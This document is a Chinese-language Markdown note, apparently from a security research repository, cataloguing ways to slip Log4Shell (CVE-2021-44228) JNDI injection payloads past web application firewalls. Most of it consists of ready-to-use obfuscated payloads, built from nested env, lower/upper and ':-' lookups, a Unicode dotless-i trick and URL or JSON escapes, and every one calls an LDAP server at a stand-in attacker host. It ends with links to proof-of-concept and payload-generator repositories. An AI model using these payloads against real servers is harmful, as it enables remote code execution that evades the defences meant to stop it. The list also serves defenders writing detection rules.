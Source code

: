 ```yaml
---
title: log4j WAF绕过方式
tags:
- 专题研究
- log4j
---
```


# 系统环境变量

```
${${env:ENV_NAME:-j}ndi${env:ENV_NAME:-:}${env:ENV_NAME:-l}dap${env:ENV_NAME:-:}//somesitehackerofhell.com/z}
```

来自 Apache Log4j 2 文档：${env:ENV_NAME:-default_value}

如果没有 ENV_NAME 系统环境变量，则使用 :- 后面的变量；攻击者可以使用任何名称代替 ENV_NAME，但它必须是不存在的环境变量。

# Lookup方法：Lower / Upper

```
  ${${lower:j}ndi:${lower:l}${lower:d}a${lower:p}://somesitehackerofhell.com/z}
  ${${upper:j}ndi:${upper:l}${upper:d}a${lower:p}://somesitehackerofhell.com/z}
```

- Lower Lookup 会将传入的参数转换为小写，嵌套形式如下：
  - ${lower:}
- Upper Lookup 会将传入的参数转换为大写，嵌套形式如下：
  - ${upper:}

# "::-" 符号

```
  ${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://somesitehackerofhell.com/z}
```

同系统环境变量部分。

# ":-" 符号

```
  ${j${${:-l}${:-o}${:-w}${:-e}${:-r}:n}di:ldap://somesitehackerofhell.com/z}
```

# 无效的Unicode字符

```
  ${jnd${upper:ı}:ldap://somesitehackerofhell.com/z}
```

这里的 **ı(\u0131)** 不是 **i(\x69)和I(\x49)**，经过 upper 就会转变成 I，从而绕过了 jndi 关键词的拦截。

# HTML编码

```
  } with %7D
  { with %7B
  $ with %24
```

# unicode / hex 编码特性

虽然这个范围有点大可能会产生一些误报，但鉴于漏洞的严重性还是有很多人建议拦截 ${ 但这样也未必能够真正的解决，因为漏洞的触发点是在打印日志的时候把可控内容携带进去了。现在随着 JSON 数据格式的流行，很多系统都在使用 JSON 处理参数，JSON 处理库用的最多的就数 Jackson和fastjson。而 Jackson 和 fastjson 又有 unicode 和 hex 的编码特性，如：

```
  {"key":"\u0024\u007b"}
  {"key":"\x24\u007b"}
```

这样就避开了数据包中有 ${ 的条件。

# 参考资料

- [https://mp.weixin.qq.com/s/vAE89A5wKrc-YnvTr0qaNg](https://mp.weixin.qq.com/s/vAE89A5wKrc-YnvTr0qaNg)
- [https://github.com/Puliczek/CVE-2021-44228-PoC-log4j-bypass-words](https://github.com/Puliczek/CVE-2021-44228-PoC-log4j-bypass-words)
- [https://github.com/woodpecker-appstore/log4j-payload-generator](https://github.com/woodpecker-appstore/log4j-payload-generator)
- [https://canarytokens.org/generate](https://canarytokens.org/generate)